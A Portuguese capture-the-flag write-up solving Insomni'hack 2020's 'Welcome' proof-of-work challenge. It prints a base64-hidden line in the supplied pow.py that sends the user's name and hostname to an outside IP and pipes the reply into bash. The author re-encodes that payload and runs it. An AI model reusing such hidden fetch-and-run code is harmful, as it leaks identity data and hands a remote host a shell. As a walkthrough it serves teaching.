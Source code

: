 # Welcome

Essa foi a Chall inicial do CTF que, apesar de ser um pouco mais complexas que as demais "Welcome's", vamos ver que não tem nada de complicado.

Primeiro vamos ver o anúncio da Chall
![description](description.png)

Então aqui, temos um arquivo chamado `pow` para baixar e um alvo que podemos acessar via Netcat (nc welcome.insomnihack.ch 1337).

Primeiro vamos executar o comando no terminal e vermos a saida
```bash
nc welcome.insomnihack.ch 1337
```
![netcat](netcat.png)

O script está nos pedindo um hash MD5 em que a inicial seja `92cea2` (esse valor á alterado a cada vez que executamos o script).

Bom, vamos então fazer um code review no arquivo que foi disponibilizado.

![pow.py](pow.py.png)

Vendo rapidamente o código, podemos notar que esse script em python está gerando hashes em números sequenciais, até achar um número que tenha a inicial como esperamos. Vamos então executar esse script passando como parâmentro, a inicial que nos foi passada (92cea2).
```bash
python pow.py 92cea2
```
Depois de esperar por alguns poucos minutos, o script conseguiu me retornar o hash de algum número que, em MD5 tenha a mesma inicial que esperamos. Então vamos inserir o valor e... Ops, algo deu errado! Mal deram um start no ano de 2020 e já estou no "Wall of Shame". É um belo jeito de começar o ano não?

![shame](shame.png)

Precisamos fazer um code review mais detalhado para acharmos essa solução. O único ponto realmente estranho nesse código, sem dúvidas é esse base64 na linha 18. Vamos verificar o seu conteúdo com o comando:
```bash
echo 'Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp' | base64 -d
```

![base64_decode](base64_decode.png)

Vamos pensar juntos... O retorno do número que nos dará uma hash válida, está na variável `i`, porém o base64 irá incrementar o valor de `1337` no valor de  `i`. Essa valor (1337) foi adicionado somente como uma forma de enganar "olhos desatentos", já que é o mesmo número da porta que estamos acessando o host.

Realizar uma alteração nesse script é fácil, iremos executar o seguinte comando para remover o `i+=1337` e converter em base64:
```bash
echo -n 'global i;x=os.name;x+="/$(whoami)@$(hostname)|bash"if x!="nt"else"/%USERNAME%@%USERDOMAIN%";os.system("curl -Ns 34.65.187.141/"+x)' | base64
```

![fix_base64](fix_base64.png)

---
**ATENÇÃO:** A saída do base64 está quebrado em algumas linhas, porém o seu valor original deve ficar somente em uma única linha e sem espaços. 

---

Agora que temos nosso base64 correto, vamos editar o arquivo `pow.py` na linha `18` e substituí-lo pelo encode correto.

Feito isso, só precisamos executar novamente o comando `nc welcome.insomnihack.ch 1337` e em outro terminal, executar o arquivo `pow.py`.

![flag](flag.png)

Bazinga! Capturamos nossa Flag.
Espero ter te ajudado em algo!

Abs...
